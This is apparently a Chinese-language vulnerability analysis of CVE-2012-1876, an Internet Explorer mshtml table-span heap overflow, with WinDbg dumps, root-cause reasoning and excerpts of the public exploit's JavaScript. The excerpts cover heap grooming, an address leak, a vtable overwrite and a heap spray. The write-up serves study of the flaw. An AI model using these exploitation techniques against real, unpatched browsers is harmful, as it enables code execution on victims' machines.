


#                        CVE-2012-1876 分析


## 1.分析环境

1. 系统 win7 x86
2. IE版本                       mshtml版本 8.0.7601.17154

## 2.漏洞成因

这个漏洞战争里面已经说了,而且开启页堆的情况下,很容易看出来是mshtml!CTableLayout::CalculateMinMax出现的问题,我们先使用poc.html来分析这个漏洞;

一般调试IE的时候我都直接使用镜像劫持的方法, 还有就是这个漏洞不要用IDA的F5模式去看,用IDA的图模式看会好很多;首先对 mshtml!CTableLayout::CalculateMinMax下个断点 中断下来的,此时[ebp+a2]是mshtml!CTableLayout 对象; 首次中断下来的时候;我们先看下CTableLayout 对象的内存布局现象

```a&#39;s&#39;m
0:005> dd ebx l50
006ac6e8  669d9960 00686298 0066dfc0 66b8e3b8
006ac6f8  00000001 00000000 0108080d ffffffff
006ac708  00000000 00000000 00000000 ffffffff
006ac718  0001494c 00009600 00000000 00000000
006ac728  00000000 00412802 00000000 00000000
006ac738  00000000 00000001 ffffffff ffffffff
006ac748  ffffffff ffffffff 669da594 00000004
006ac758  00000004 006af5e8 669da594 00000004
006ac768  00000004 006af5d0 00000000 00000000
006ac778  669da594 00000000 00000000 00000000
006ac788  00000000 00000000 00000000 00000000
006ac798  00000000 00000000 00000000 00000000
006ac7a8  00000000 00000000 00000000 00000000
006ac7b8  00000000 00000000 00000000 00000000
006ac7c8  00000000 00000000 00000000 00000000
006ac7d8  00000000 00000000 00000000 00000000
006ac7e8  00000000 00000000 ffffffff 00000001
006ac7f8  00000000 00000000 00000000 ffffffff
006ac808  ffffffff 669da594 00000000 00000000
006ac818  00000000 00000000 669da594 00000004

```

此时我们需要记住的几个偏移

ebx     这个是对象的虚表指针

ebx+0x54   这个值是初始化时候脚本中span的值  现在我们可以看到是为1

ebx+0x90 ~ ebx+0x9C   ebx+0x90 其实是CImplPtrAry 对象(其偏移 0xC 为 TableCol 对象的 StyleStructArray 指针) 可以看到现在ebx+94 ebx+98 ebx+9c 都是为0; 

注意下ebx+54之个值 他是初始化的时候设置上的值,这个值是不变的,后续脚本修改了span的值,这个内容是不会去改变的


按照前人的分析,我们知道首次调用CTableLayout::CalculateMinMax会调用CImplAry::EnsureSizeWorker去分配内存, 但是当第二次调用CTableLayout::CalculateMinMax的时候又不会去调用CImplAry::EnsureSizeWorker分配内存, 我们用IDA的图模式可以看到如果要走到分配内存的逻辑的话中断在下图这个位置比较好




我们在这个位置下断点,从这个位置向下走,看下走到分配内存的逻辑是什么;其中会有两次比较

首先是

```asm
 mov     eax, [ebx+94h]
 shr     eax, 2
 cmp     eax, edx
```

   就是 [ebx+94]/4 和 [ebx+0x54]比较

然后是

```asm
 cmp     edx, [esi+8]
```

此时esi = ebx+90 ,也就是 [ebx+0x54]与 [ebx+90+8]比较;  然后调用CImplAry::EnsureSizeWorker分配内存了,  传入的参数分配的元素个数是1, 单个元素的大小是0x1c, CImplAry::EnsureSizeWorker分配的内存是4*0x1c的内存,调用完CImplAry::EnsureSizeWorker以后; edi+90的布局是669da594 0 4  006ac848;说明元素的分配的个数是4个,内存指针是006ac848

```asm
0:005> db 006ac848 l70
006ac848  80 39 67 00 78 bf 68 00-49 00 01 00 00 00 00 00  .9g.x.h.I.......
006ac858  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
006ac868  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
006ac878  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
006ac888  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
006ac898  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
006ac8a8  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................

```

内存分配之后需要被使用,根据前人的分析我们可以知道使用这块内存的是CTableColCalc::AdjustForCol;这个函数每次填充大小为0x1c的数据, 填充的次数是由CTableCol::GetAAspan的值(这个获取到的是实时的span值)来控制 最大1000次 这0x1c的数据内容是

```a&#39;s&#39;m
width*10     width*10      width*10          不做改变       不做改变          不做改变     width*10*16|8
```

第一次的width值是41 41*100 = 0x1004 0x1004这个值是mshtml!CWidthUnitValue::GetPixelWidth返回的

```a&#39;s&#39;m
0:005> db 006ac848 l70
006ac848  04 10 00 00 04 10 00 00-04 10 00 00 00 00 00 00  ................
006ac858  00 00 00 00 00 00 00 00-48 00 01 00 00 00 00 00  ........H.......
006ac868  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
006ac878  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
006ac888  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
006ac898  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
006ac8a8  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................

```


当第二次mshtml!CTableLayout::CalculateMinMax断下来的时候,同样会走到

```a&#39;s&#39;m
 mov     eax, [ebx+94h]
 shr     eax, 2
 cmp     eax, edx
```

此时[ebx+94]是为4 edx此时还是为1,所以不会进入到内存分配的逻辑中去;而继续执行下面的CTableColCalc::AdjustForCol时候,CTableCol::GetAAspan此时的值已经被脚本修改成了1000，width被修改成了42765, 42765*100 = 0x414114

我们此时再看下006ac848的数据;执行一次CTableColCalc::AdjustForCol后的内存数据如下

```a&#39;s
0:005> db 006ac848 l70
006ac848  14 41 41 00 14 41 41 00-14 41 41 00 00 00 00 00  .AA..AA..AA.....
006ac858  00 00 00 00 00 00 00 00-48 11 14 04 00 00 00 00  ........H.......
006ac868  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
006ac878  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
006ac888  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
006ac898  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
006ac8a8  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................

```


现在我们就知道了, 他是根据ebx+0x54处的数据来和ebx+90后的CImplPtrAry 对象内容比较来看要不要分配内存,其中ebx+0x54被设置成静态的数据内容,也就是说mshtml!CTableLayout::CalculateMinMax不会去改变ebx+0x54处的内容,

当首次初始化的时候ebx+0x54代表span的值,内存分配会按照这个值去分配,For循环里(CTableCol::GetAAspan控制循环次数)的CTableColCalc::AdjustForCol也会按照span的次数去赋值内存数据 两者都是1

当第二次CTableLayout::CalculateMinMax调用的时候;还是使用ebx+0x54处的数据来和ebx+90后的CImplPtrAry 对象内容比较来看要不要分配内存,问题是ebx+54处的数据没有被实时修改,还是上次的1, 后面赋值内存的时候获取的span的值是实时获取的,被脚本修改成了1000, 从而循环1000次初始化内存数据,出现了堆溢出

所以实际上来看就是 ebx+54处的这个成员变量和CTableCol::GetAAspan没有同步导致的,要么都是用分配修改内存都用CTableCol::GetAAspan控制,要么都用ebx+54这个成员变量控制

感觉对这个漏洞的分析还算是说的比较清楚了

## 3.漏洞利用

这个漏洞是个堆溢出漏洞,从exploit.html的利用手法上看,通用一点的手法都是首先通过内存布局占坑让CImplAry::EnsureSizeWorker分配的内存能落在你预先分配好的内存上,

这是因为在分配内存时会优先使用已经释放掉的内存（如果大小相同或者小于)，这样我们就可以先申请出来一片内存，且该内存和漏洞触发时要申请的内存大小相同,然后将我们申请到的内存进行释放, 最后漏洞触发的时候分配的内存就正好就占用了我们刚刚释放过的内存,我们就能控制利用代码执行


```javascript
for (var i = 0; i < 500; i += 2) {

			// E
			rra[i] = dap.substring(0, (0x100 - 6) / 2);

			// S, bstr = A
			arr[i] = padding.substring(0, (0x100 - 6) / 2);

			// A, bstr = B
			arr[i + 1] = filler.substring(0, (0x100 - 6) / 2);

			// B
			var obj = document.createElement("button");
			div_container.appendChild(obj);

		}


		Math.atan(0);

		for (var i = 200; i < 500; i += 2) {
			rra[i] = null;
			CollectGarbage();
		}

```

从上面的代码中我们可以看到内存布局是

```asm
E A B Cbutton
```

然后释放掉E所在的内存,  让CImplAry::EnsureSizeWorker分配的内存刚好落在E的内存上,然后通过泄漏CbuttonLayout的虚表地址来得到mshtml的基址,这个地址和mshtml的基址偏移是个固定常数,从<<漏洞战争>>来看这个固定常数在不同的版本可能不一样,比如我的环境上和书上的偏移就是不同的;


通过下面的代码来泄漏,可以对照着漏洞战争来看

```javascript
var obj_col = document.getElementById("132");
obj_col.span = 19;
```


原理先是介绍了,我们需要看下实际中内存布局,为了方便查看,我在原来的exploit代码里面加上了Math.atan(0);需要说明的是,输出这么多的内存分配释放是很卡的,所以建议第一次的时候完整输出,后面就可以选择输出了

我们需要输出ntdll!RtlAllocateHeap 分配 E A B Cbutton的内存情况

我们需要输出ntdll!RtlFreeHeap 释放 E 的情况

我们需要输出CImplAry::EnsureSizeWorker的内存分配情况

同时我们需要断在jscript!atan,方便我们观看前面三块的数据

具体的调试在1.log中,可以查看下log,还是很容易看懂内存布局的,当下面代码执行后

```javascript
var obj_col = document.getElementById("132");
obj_col.span = 19;
```

此时的内存布局

```a&#39;s&#39;m
0:005> db 0x031d6368  L31c
031d6368  04 10 00 00 04 10 00 00-04 10 00 00 00 00 00 00  ................
031d6378  45 00 45 00 41 00 45 00-48 00 01 00 04 10 00 00  E.E.A.E.H.......
031d6388  04 10 00 00 04 10 00 00-00 00 00 00 45 00 45 00  ............E.E.
031d6398  41 00 45 00 48 00 01 00-04 10 00 00 04 10 00 00  A.E.H...........
031d63a8  04 10 00 00 00 00 00 00-45 00 45 00 41 00 45 00  ........E.E.A.E.
031d63b8  48 00 01 00 04 10 00 00-04 10 00 00 04 10 00 00  H...............
031d63c8  00 00 00 00 45 00 45 00-41 00 45 00 48 00 01 00  ....E.E.A.E.H...
031d63d8  04 10 00 00 04 10 00 00-04 10 00 00 00 00 00 00  ................
031d63e8  45 00 45 00 41 00 45 00-48 00 01 00 04 10 00 00  E.E.A.E.H.......
031d63f8  04 10 00 00 04 10 00 00-00 00 00 00 45 00 45 00  ............E.E.
031d6408  41 00 45 00 48 00 01 00-04 10 00 00 04 10 00 00  A.E.H...........
031d6418  04 10 00 00 00 00 00 00-45 00 45 00 41 00 45 00  ........E.E.A.E.
031d6428  48 00 01 00 04 10 00 00-04 10 00 00 04 10 00 00  H...............
031d6438  00 00 00 00 45 00 45 00-41 00 45 00 48 00 01 00  ....E.E.A.E.H...
031d6448  04 10 00 00 04 10 00 00-04 10 00 00 00 00 00 00  ................
031d6458  45 00 45 00 41 00 45 00-48 00 01 00 04 10 00 00  E.E.A.E.H.......
031d6468  04 10 00 00 04 10 00 00-fa 00 00 00 41 00 41 00  ............A.A.
031d6478  41 00 41 00 48 00 01 00-04 10 00 00 04 10 00 00  A.A.H...........
031d6488  04 10 00 00 41 00 41 00-41 00 41 00 41 00 41 00  ....A.A.A.A.A.A.
031d6498  48 00 01 00 04 10 00 00-04 10 00 00 04 10 00 00  H...............
031d64a8  41 00 41 00 41 00 41 00-41 00 41 00 48 00 01 00  A.A.A.A.A.A.H...
031d64b8  04 10 00 00 04 10 00 00-04 10 00 00 41 00 41 00  ............A.A.
031d64c8  41 00 41 00 41 00 41 00-48 00 01 00 04 10 00 00  A.A.A.A.H.......
031d64d8  04 10 00 00 04 10 00 00-41 00 41 00 41 00 41 00  ........A.A.A.A.
031d64e8  41 00 41 00 48 00 01 00-04 10 00 00 04 10 00 00  A.A.H...........
031d64f8  04 10 00 00 41 00 41 00-41 00 41 00 41 00 41 00  ....A.A.A.A.A.A.
031d6508  48 00 01 00 04 10 00 00-04 10 00 00 04 10 00 00  H...............
031d6518  41 00 41 00 41 00 41 00-41 00 41 00 48 00 01 00  A.A.A.A.A.A.H...
031d6528  04 10 00 00 04 10 00 00-04 10 00 00 41 00 41 00  ............A.A.
031d6538  41 00 41 00 41 00 41 00-48 00 01 00 04 10 00 00  A.A.A.A.H.......
031d6548  04 10 00 00 04 10 00 00-41 00 41 00 41 00 41 00  ........A.A.A.A.
031d6558  41 00 41 00 48 00 01 00-04 10 00 00 04 10 00 00  A.A.H...........
031d6568  04 10 00 00 41 00 00 00-7e d8 87 77 00 00 00 88  ....A...~..w....
031d6578  48 00 01 00 42 00 42 00-42 00 42 00 42 00 42 00  H...B.B.B.B.B.B.
031d6588  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d6598  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d65a8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d65b8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d65c8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d65d8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d65e8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d65f8  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d6608  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d6618  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d6628  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d6638  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d6648  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d6658  42 00 42 00 42 00 42 00-42 00 42 00 42 00 42 00  B.B.B.B.B.B.B.B.
031d6668  42 00 42 00 42 00 42 00-42 00 42 00 42 00 00 00  B.B.B.B.B.B.B...
031d6678  1f d8 87 77 00 00 00 8c-f8 84 b2 66              ...w.......f
```

而原先的 E A B bUTTON的内存分配情况是  可以看到0x031d6368 0x031d6470 0x031d6578 0x031d6680 这三块内存的连续性 0x031d6368 与 0x031d6470 中间间隔是0x108  其中 的 8 是 A 起始的堆指针,也就是0x031d6468~ 0x031d6470 这八个字节

```a&#39;s&#39;m
 [*RtlAllocateHeap*]Alloc Buffer:0x031d6368, Size is:0x00000100
 [*RtlAllocateHeap*]Alloc Buffer:0x031d6470, Size is:0x00000100
 [*RtlAllocateHeap*]Alloc Buffer:0x031d6578, Size is:0x00000100
 [*RtlAllocateHeap*]Alloc Buffer:0x0016ee50, Size is:0x00000058
 [*RtlAllocateHeap*]Alloc Buffer:0x031b68a8, Size is:0x00000014
 [*RtlAllocateHeap*]Alloc Buffer:0x0016be60, Size is:0x00000040
 [*RtlAllocateHeap*]Alloc Buffer:0x031def88, Size is:0x000000c4
 [*RtlAllocateHeap*]Alloc Buffer:0x00135310, Size is:0x00000020
 [*RtlAllocateHeap*]Alloc Buffer:0x031ae4f0, Size is:0x0000004c
 [*RtlAllocateHeap*]Alloc Buffer:0x031ae548, Size is:0x00000050
 [*RtlAllocateHeap*]Alloc Buffer:0x031d6680, Size is:0x000000fc
```

我们需要此时我们写出的位置是19*1C=0x214;  0x214-0x100 -0x08 - 0x100-0x8 = 4 这个4刚好是B的字符串长度,我们写入的值是0x10048 为啥是这个值 , 请往回看0x1c的数据的布局  当width是0n41的时候, 最后一个数字的值就是0x10048了

```a&#39;s
width*10     width*10      width*10          不做改变       不做改变          不做改变     width*10*16|8
```

我们可以看出虚表指针地址是0x66b284f8,当泄露出mshtml的基地址之后,我们后面需要构造Rop,为此程序构造了覆盖虚表指针的操作;这就是第二段的

```javascript
var obj_col_0 = document.getElementById("132");
obj_col_0.width = 1178993;                    // smash the vftable 0x07070024
obj_col_0.span = 44;                         // the amount to overwrite
```

从代码的注释中我们可以看出来作者的意图 其将虚表指针覆盖成0x07070024,这个数字其实是有讲究的

[targeted-heap-spraying](http://www.exploit-monday.com/2011/08/targeted-heap-spraying-0x0c0c0c0c-is.html)这个里面的技术,作者发现了512k以上的js的string的分配返回的地址总是在0xXXXX0000上,并且内存布局是下面的样子



所以作者用这样的方式

```javascript
    var shellcode = "\u4141";

    while (shellcode.length < 100000)
        shellcode = shellcode + shellcode;

    var onemeg = shellcode.substr(0, 64*1024/2);

    for (i=0; i<14; i++) {
        onemeg += shellcode.substr(0, 64*1024/2);
    }

    onemeg += shellcode.substr(0, (64*1024/2)-(38/2)); 
```

分配64k X 16 X 100的方式分配100M的内存,这样的话,由于64k对其的原因,shellcode会存在0xXXXX0024的位置

poc中使用的就是这种方式, 使用的64k X 16 X 400分配 400M的空间 也就是0x19000000 这样的话07070000这个位置就很可能被分配了内存


## 4.参考资料

1. http://c00c.cc/1493200282.html
2. http://www.exploit-monday.com/2011/08/targeted-heap-spraying-0x0c0c0c0c-is.html、
3. <<漏洞战争>>